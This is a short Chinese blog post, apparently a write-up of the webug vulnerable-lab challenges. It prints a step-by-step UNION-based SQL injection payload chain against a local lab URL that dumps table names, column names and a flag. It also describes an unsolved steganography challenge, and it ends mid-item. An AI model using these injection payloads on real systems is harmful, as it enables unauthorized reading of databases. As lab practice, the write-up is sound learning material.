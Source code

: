 ```yaml
---
layout: post
author: "kele"
date: "2017-12-25"
title: "webug ♂ play 姿势"
tags: 
  - 总结
  - webug
---
```

# webug play 姿势

## 入门
1. sql注入payload    
感觉100年没做过sql注入了
首先爆列数,使用order by ,`http://192.168.86.128/pentest/test/sqli/sqltamp.php?gid=1'order by 4 %23`，注释只能使用#的url转码也就是`%23`
然后:   
`http://192.168.86.128/pentest/test/sqli/sqltamp.php?gid=1%27union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() %23`   
获得表名:`flag`    
`http://192.168.86.128/pentest/test/sqli/sqltamp.php?gid=1%27union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='flag' %23`   
获得列名`flag`   
`http://192.168.86.128/pentest/test/sqli/sqltamp.php?gid=1%27union%20select 1,2,3,flag from flag%23`   
获得flag

2. 应该是一道misc的题目，首先使用binwalk 跑一遍，发现一个rar,`dd`提取出来，解压，一个txt内容是密码是`密码123`，想了半天，觉得应该是图片的隐写，百度无果，自己动手，丰衣足食，使用stegdetect检测，发现jphide的可能性最大，所以使用Jpseek提取，密码错误。。。。。。使用stegbreak爆破密码，无果，放弃。。。。。  
ps: 我还考虑过ntfs流，无果


3. 打开之后，